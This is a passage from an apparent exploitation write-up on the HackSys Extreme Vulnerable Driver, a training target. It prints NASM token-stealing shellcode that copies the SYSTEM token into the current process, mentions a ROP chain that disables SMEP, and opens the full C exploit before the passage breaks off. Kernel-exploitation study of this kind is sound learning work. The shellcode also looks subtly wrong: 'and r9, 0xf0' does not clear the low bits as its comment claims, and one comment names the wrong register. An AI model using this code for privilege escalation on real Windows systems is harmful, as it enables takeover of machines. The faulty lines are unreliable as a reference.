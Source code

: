 ```c
		0,
		NULL,
		NULL);

	return 0;
}
```

Running this we seen the ROP chain execute, disable SMEP, and `ret` into the shellcode which is currently just NOPs.

## Token Stealing Shellcode
I stole all this from <https://vuln.dev/windows-kernel-exploitation-hevd-x64-stackoverflow/> but double checked the offsets in Windbg. It's a token stealing shellcode combined with a generic way return from the `DeviceIoControl` syscall without crashing. This was assembled using [NASM](https://www.nasm.us/pub/nasm/releasebuilds/2.16.03/win64/).

```NASM
[BITS 64]
start:
  mov rax, [gs:0x188]       ; KPCRB.CurrentThread (_KTHREAD)
  mov rax, [rax + 0xb8]     ; APCState.Process (current _EPROCESS)
                            ; dt nt!_KTHREAD ApcStateFill + dt nt!_KAPC_STATE Process
  mov r8, rax               ; Store current _EPROCESS ptr in RBX

loop:
  mov r8, [r8 + 0x448]      ; ActiveProcessLinks (dt _EPROCESS ActiveProcessLinks)
  sub r8, 0x448             ; Go back to start of _EPROCESS (same offset as above)
  mov r9, [r8 + 0x440]      ; UniqueProcessId (PID) (dt _EPROCESS UniqueProcessId)
  cmp r9, 4                 ; SYSTEM PID?
  jnz loop                  ; Loop until PID == 4

replace:
  mov r9, [r8 + 0x4b8]      ; Get SYSTEM token (dt _EPROCESS Token)
  and r9, 0xf0              ; Clear low 4 bits of _EX_FAST_REF structure
  mov [rax + 0x4b8], r9     ; Copy SYSTEM token to current process (dt _EPROCESS Token)
  
  xor rax, rax
  ret
```

The full exploit code 
```c
#include <Windows.h>
#include <Psapi.h>

#include <stdio.h>

typedef signed char i8;
typedef short       i16;
typedef int         i32;
typedef long long   i64;

typedef unsigned char      u8;
typedef unsigned short     u16;
typedef unsigned int       u32;
typedef unsigned long long u64;

#define ArraySize(x) (sizeof x / sizeof x[0])

#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)

#define HEVD_IOCTL_BUFFER_OVERFLOW_STACK IOCTL(0x800)

```